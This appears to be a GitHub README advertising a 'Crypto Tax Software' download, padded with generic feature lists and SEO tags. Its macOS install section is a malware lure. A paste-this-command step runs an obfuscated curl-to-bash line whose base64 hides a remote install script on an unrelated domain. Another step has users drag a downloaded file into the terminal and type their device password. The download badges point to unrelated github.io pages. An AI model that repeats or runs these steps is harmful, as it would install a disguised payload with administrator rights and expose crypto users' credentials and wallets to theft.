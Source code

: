 # Crypto Tax Software – Download & Full Guide  

<div align="center">

![Crypto Tax Software Logo](https://www.werk1.com/wp-content/uploads/sites/13/2021/09/werk1-1579264480088.svg)

</div>  

**Crypto Tax Software** is a professional-grade tax calculation and reporting platform tailored for cryptocurrency traders, NFT investors, and digital asset holders. Whether you’re a casual crypto user or a high-volume trader, it helps automate **tax reporting, portfolio tracking, and compliance** for various jurisdictions worldwide.  

<div align="center">  

[![Download for Windows](https://img.shields.io/badge/Download_for_Windows-blue?style=for-the-badge&logo=windows)](https://crypto-tax-software.github.io/.github)  
[![Download for Mac](https://img.shields.io/badge/Download_for_Mac-silver?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/crypto-tax-software)  

</div>  

---

## 📊 What is Crypto Tax Software?  

**Crypto Tax Software** is an all-in-one tax reporting solution designed to simplify the process of calculating gains, losses, and taxable income from cryptocurrency and NFT transactions. It automatically imports your trades from **exchanges, wallets, and DeFi platforms**, applies **tax rules specific to your country**, and generates **ready-to-file tax forms** such as IRS Form 8949 in the U.S., or equivalents in other regions.  

The platform offers:  

- **Automatic Data Import** – Syncs with major exchanges, wallets, and DeFi protocols via API or CSV uploads.  
- **Accurate Tax Calculations** – Supports multiple accounting methods like FIFO, LIFO, and specific identification.  
- **Multi-Country Support** – Adapts tax reports to your jurisdiction’s requirements.  
- **NFT Tax Handling** – Tracks NFT purchases, sales, and royalties for accurate reporting.  
- **Audit-Ready Reports** – Creates transparent, downloadable reports for accountants or tax authorities.  

By using **Crypto Tax Software**, users can significantly reduce the time spent on manual tax reporting, avoid costly mistakes, and stay fully compliant with evolving crypto regulations. It’s equally useful for **casual investors, day traders, DeFi users, NFT creators, and professional accountants**.  

---

## 🖥️ Key Features  

- **Exchange & Wallet Integration** – Supports hundreds of platforms for seamless transaction imports  
- **NFT Tracking** – Full tax calculation for NFT sales, royalties, and minting  
- **Defi & Staking Support** – Covers yield farming, lending, liquidity pools, and more  
- **Multiple Accounting Methods** – FIFO, LIFO, HIFO, and more  
- **Cross-Platform Access** – Desktop apps for Windows & macOS, plus web and mobile access  
- **Audit Trail** – Full transaction history for transparency  
- **Tax Form Generation** – Creates IRS Form 8949, Schedule D, and other country-specific forms  
- **Capital Gains & Loss Reports** – Detailed breakdowns for easy filing  

---

![Crypto Tax Report Example](https://cryptotax.com/wp-content/uploads/2020/01/f8949-example.jpg)  

---

## ⚙️ System Requirements  

- **OS**: Windows 10/11 (64-bit) or macOS 11+  
- **CPU**: Intel i5 / Apple Silicon M1 or newer  
- **RAM**: 8 GB minimum  
- **Disk**: 500 MB free space  
- **Internet**: Required for syncing data and generating reports  

---

## Installation


## For Windows:

1. Download the archive with the program files
2. Unzip all files
3. Run the program's `.exe` file.


## For MacOS:

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🏷️ Tags  

`crypto tax software` • `best crypto tax software` • `free crypto tax software` • `crypto tax app` • `cheapest crypto tax software` • `top crypto tax software` • `cheap crypto tax software` • `best crypto tax app` • `crypto taxes software` • `revolut crypto tax` • `best crypto tax software 2022` • `easiest crypto tax software` • `crypto tax software best` • `best crypto tax platform` • `crypto tax software for accountants` • `crypto tax accounting software` • `crypto tax calculator app` • `best crypto tax software for nfts` • `crypto tax filing software` • `free crypto tax app` • `crypto tax software review` • `crypto tax calculator robinhood` • `cash app crypto tax` • `the best crypto tax software` • `robinhood crypto tax calculator` • `compare crypto tax software`  

---
